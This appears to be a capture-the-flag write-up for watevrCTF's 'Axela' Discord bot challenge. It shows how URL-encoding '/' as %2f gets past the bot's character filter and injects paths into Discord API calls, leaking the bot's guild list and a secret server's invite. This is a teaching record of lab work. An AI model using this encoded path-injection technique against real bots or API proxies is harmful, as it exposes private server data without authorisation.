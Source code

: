 # Axela

#### Category: misc
#### Points: 236

Axela was an easy misc discord bot challenge but not a lot of teams solved it. 

The challenge was to exploit a discord bot called Axela.

```
$ Axela help

All commands:

Axela ping - ping
Axela say <phrase> - repeats the phrase
Axela get guilds <guild_id> - gets info about a specific guild
Axela get channels <channel_id> - gets info about a specific channel
Axela get users <user_id> gets info about a specific user
```

An interesting discovery:

```
$ Axela get users !@

Unrecognized response format
{"user_id": ["Value \"!@\" is not snowflake."]}
```

This means Axela will leak values if the format is not what it expects. Also searching for snowflake leads us to the discord api.

```
$ Axela get users /

I dont like that character. Please don't use that.
```

Oh. They're filtering `/`. Now we know the exploit. URLEncode it.

```
$ Axela get users %2f

404: Not Found
```

As expected.

Using discord api documentation, let's get the servers Axela is a part of:

```
$ Axela get users @me%2fguilds

[{"id": "601776233411510302", "name": "Super Secret Server", "icon": "baca37e4b8e17d0d59afde06f86b4659", "owner": false, "permissions": 2146959351, "features": []}, {"id": "603684713361571879", "name": "watevrCTF", "icon": "2e898a64583de4c1c4bba2c58b69a303", "owner": false, "permissions": 104324673, "features": []}]
```

Looks like Axela is a part of the super secert server. Let's find a way to join that server. Maybe there are open invites to the server. Let's see.

```
$ Axela get guilds 601776233411510302%2finvites

[{"code": "GkadtPv", "guild": {"id": "601776233411510302", "name": "Super Secret Server", "splash": null, "banner": null, "description": null, "icon": "baca37e4b8e17d0d59afde06f86b4659", "features": [], "verification_level": 0, "vanity_url_code": null}, "channel": {"id": "601776741966413834", "name": "general", "type": 0}, "inviter": {"id": "601773149742432270", "username": "watevr", "avatar": null, "discriminator": "2443"}, "uses": 13, "max_uses": 0, "max_age": 0, "temporary": false, "created_at": "2019-07-19T14:07:36.029000+00:00"}]
```

Use the code to join the super secert server and you have the flag in the channel.

Don't try, the invite is invalidated now. It's a 1337 only server now. XD
